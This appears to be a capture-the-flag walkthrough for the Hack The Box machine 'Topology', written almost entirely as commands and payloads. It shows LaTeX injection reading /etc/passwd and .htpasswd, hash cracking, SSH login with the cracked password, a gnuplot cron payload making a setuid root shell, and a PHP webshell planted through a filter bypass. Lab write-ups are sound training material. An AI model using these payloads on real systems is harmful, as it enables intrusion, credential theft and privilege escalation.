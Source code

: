 # 🛰️ HTB: Topology

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

## 🧭 Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.217
nmap -p 22,80 -sCV 10.10.11.217
```

### Host Enumeration
```bash
# Add to /etc/hosts
echo "10.10.11.217 topology.htb latex.topology.htb dev.topology.htb stats.topology.htb" | sudo tee -a /etc/hosts
```

### Subdomain Bruteforce
```bash
ffuf -u http://10.10.11.217 -H "Host: FUZZ.topology.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -mc all -ac
```

### Directory Bruteforce
```bash
feroxbuster -u http://10.10.11.217 -x html
```

---

## 🐚 Shell as `vdaisley`

### LaTeX File Read
```latex
$\lstinputlisting{/etc/passwd}$
```

### [Apache vhost + .htpasswd Enumeration](HTTP)
```latex
# View vhost config
$\lstinputlisting{/etc/apache2/sites-enabled/000-default.conf}$

# View .htaccess
$\lstinputlisting{/var/www/dev/.htaccess}$

# View .htpasswd
$\lstinputlisting{/var/www/dev/.htpasswd}$
```

### Hash Cracking
```bash
# Save hash
echo 'vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0' > vdaisley.hash

# Crack with hashcat
hashcat -m 1600 -a 0 vdaisley.hash /opt/rockyou.txt
```

### [SSH](SSH) Access
```bash
sshpass -p 'calculus20' ssh vdaisley@topology.htb
```

---

## ⚙️ Shell as root (via gnuplot cron)

### Gnuplot Cron Observation (with pspy)
```bash
wget http://10.10.14.6/pspy64
chmod +x pspy64
./pspy64
```

### Proof of Concept Payload
```bash
cat > /opt/gnuplot/0xdf.plt << EOF
set print "/dev/shm/0xdf-output"
output = system("id")
print(output)
EOF
```

### Create SetUID Root Shell
```bash
cat > /opt/gnuplot/0xdf.plt << EOF
system("cp /bin/bash /tmp/0xdf")
system("chmod 6777 /tmp/0xdf")
EOF

# Wait a minute, then:
/tmp/0xdf -p
```

---

## 📖 Beyond Root – LaTeX Filter Bypass

### Filter Bypass With `^^`
```latex
# Bypassing filter with \write
$\newwrite\outfile\openout\outfile=cmd.php\^^77rite\outfile{%3C?php system($_GET['cmd']); ?%3E}\closeout\outfile
```

### Trigger Webshell
```bash
curl "http://latex.topology.htb/tempfiles/cmd.php?cmd=id"
```

---

## 🛠️ Fix Broken Stats (Bonus)

### Patch `getdata.sh`
```bash
chattr -i /opt/gnuplot/getdata.sh

# Change grep 'enp' to 'eth' inside getdata.sh
sed -i 's/enp/eth/' /opt/gnuplot/getdata.sh
```

### Fix `networkplot.plt` Source Paths
```bash
# Replace '/var/www/gnuplot' with '/opt/gnuplot' in plot lines
sed -i 's|/var/www/gnuplot|/opt/gnuplot|g' /opt/gnuplot/networkplot.plt
```